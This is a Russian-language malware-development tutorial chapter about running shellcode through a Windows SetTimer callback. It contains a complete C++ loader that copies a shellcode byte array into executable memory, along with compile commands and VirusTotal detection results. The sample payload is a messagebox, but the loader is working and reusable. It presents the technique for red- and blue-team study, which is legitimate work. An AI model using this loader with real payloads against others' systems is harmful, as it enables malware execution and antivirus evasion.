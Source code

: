 \newpage
\subsection{44. трюк разработки вредоносного ПО. Запуск шеллкода через SetTimer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![трюк](./images/98/2023-06-04_13-37.png){width="80%"}      

Эта статья является результатом моего собственного исследования следующего интересного трюка: запуск шеллкода через функцию `SetTimer`.      

### SetTimer

Функция `SetTimer` является частью Windows API. Она используется для создания таймера с заданным временем ожидания.     

Вот её базовый синтаксис:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Где:

- `hWnd`: Дескриптор окна, связанного с таймером. Это окно должно принадлежать вызывающему потоку. Если передан `NULL` вместе с `nIDEvent` существующего таймера, старый таймер будет заменён новым.      
- `nIDEvent`: Идентификатор таймера (ненулевой). Если `hWnd` равно `NULL`, и `nIDEvent` не соответствует существующему таймеру, он игнорируется, и создаётся новый ID таймера. Если `hWnd` не равно `NULL`, и указанное окно уже имеет таймер с `nIDEvent`, то старый таймер заменяется новым.      
- `uElapse`: Время ожидания в миллисекундах.      
- `lpTimerFunc`: Указатель на функцию, которая вызывается по истечении времени ожидания. Если этот параметр равен `NULL`, система отправляет сообщение `WM_TIMER` в очередь приложения. Это сообщение обрабатывается оконной процедурой.      

### практический пример

Итак, в чём суть трюка? Просто посмотрите на этот код (`hack.c`):      

```cpp
/*
 * hack.cpp - запуск шеллкода через SetTimer. Реализация на C++
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

Как можно заметить, этот код пытается выполнить шеллкод, используя API `SetTimer` Windows, передавая в него указатель на функцию `(TIMERPROC)`, которая будет вызвана по истечении таймера.     

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![трюк](./images/98/2023-06-04_13-38.png){width="80%"}      

Запускаем на машине жертвы:     

```powershell
.\hack.exe
```

![трюк](./images/98/2023-06-04_13-59.png){width="80%"}      

Как можно заметить, всё сработало идеально! =^..^=

Давайте загрузим `hack.exe` на VirusTotal:       

![трюк](./images/98/2023-06-04_14-01.png){width="80%"}      

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

Но, похоже, в нашем "грязном" PoC-коде есть проблема.      

Функция `SetTimer` требует установки параметра `uElapse`, который представляет собой значение времени ожидания в миллисекундах. Если установить его в `NULL` или `0`, функция не создаст таймер. Поэтому, если мы хотим выполнить шеллкод немедленно, нам нужно установить `uElapse` в `1`. Например так:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Устанавливаем uElapse в 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Используем цикл while, чтобы 
                                           // поддерживать обработку сообщений
  DispatchMessageA(&msg);
}
```

Этот код создаст таймер, который сработает практически мгновенно и вызовет наш шеллкод в качестве функции обратного вызова. Конечно, стоит отметить, что такая техника может быть распознана антивирусами как вредоносная из-за аномального поведения выполнения кода через таймерный callback.        

Я пока не встречал этот трюк в реальных вредоносных программах и APT-атаках. Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
